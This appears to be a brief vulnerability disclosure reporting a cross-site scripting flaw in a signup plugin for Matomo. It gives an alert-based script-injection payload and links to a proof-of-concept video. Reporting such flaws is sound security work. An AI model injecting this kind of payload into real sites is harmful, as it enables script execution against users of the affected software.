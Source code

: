 XSS on signup plugin in matomo last version
\
payload : "/><script>alert('ks omk')</script>

Poc:

video attached.
https://drive.google.com/file/d/1nyONhGnVE5p4-O1V37TTGMtDspv-Q-Ab/view?usp=sharing


Osama.
